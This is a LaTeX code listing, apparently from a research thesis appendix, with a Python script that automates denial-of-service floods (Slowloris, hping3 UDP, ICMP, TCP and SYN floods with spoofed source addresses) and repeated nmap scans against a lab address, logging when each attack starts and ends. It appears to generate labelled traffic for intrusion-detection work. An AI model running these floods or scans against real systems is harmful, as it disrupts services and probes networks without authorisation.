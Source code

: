 \begin{lstlisting}[caption={Python script for automatet attacks and storage of the timestamps}, label={lst:python_attack_script}]
import subprocess
import time
from datetime import datetime

commands = [
    ("Slowloris", ["python3", "slowloris.py", "192.168.1.25", "-s", "500"]),
    ("UDP Flood", ["sudo", "hping3", "--flood", "--udp", "-p", "80", "192.168.1.25"]),
    ("ICMP Flood", ["sudo", "hping3", "--flood", "-1", "192.168.1.25"]),
    ("TCP Flood", ["sudo", "hping3", "--flood", "-p", "80", "192.168.1.25"]),
    ("Synonymous Flood", ["sudo", "hping3", "--flood", "--rand-source", "-p", "80", "192.168.1.25"]),
    ("Portscan", ["bash", "-c", "for i in {1..1000}; do sudo nmap -sT 192.168.1.25; sleep 1; done"]),
    ("OS Fingerprinting", ["bash", "-c", "for i in {1..1000}; do sudo nmap -O 192.168.1.25; sleep 1; done"]),
    ("Aggressive Scan", ["bash", "-c", "for i in {1..1000}; do sudo nmap -A 192.168.1.25; sleep 1; done"]),
]

LOG_FILE = "timestamp_attacks.txt"
RUN_TIME = 15 * 60      # 15 Minuten
BREAK_TIME = 20 * 60    # 20 Minuten

def log_msg(msg):
    with open(LOG_FILE, "a") as f:
        f.write(msg + "\n")

while True:
    for name, cmd in commands:
        start_time = datetime.now()
        print(f"Starte {name}: {' '.join(cmd)}")
        log_msg(f"Start: {start_time.strftime('%Y-%m-%d %H:%M:%S')} - Angriff: {name} - Befehl: {' '.join(cmd)}")
        try:
            proc = subprocess.Popen(cmd)
            proc.wait(timeout=RUN_TIME)
            note = "Erfolgreich beendet"
        except subprocess.TimeoutExpired:
            proc.terminate()
            try:
                proc.wait(10)
            except Exception:
                proc.kill()
            note = "Nach 15 Minuten abgebrochen"
        end_time = datetime.now()
        log_msg(f"Ende: {end_time.strftime('%Y-%m-%d %H:%M:%S')} ({note})")
        log_msg("Pause startet jetzt.\n")
        time.sleep(BREAK_TIME)
\end{lstlisting}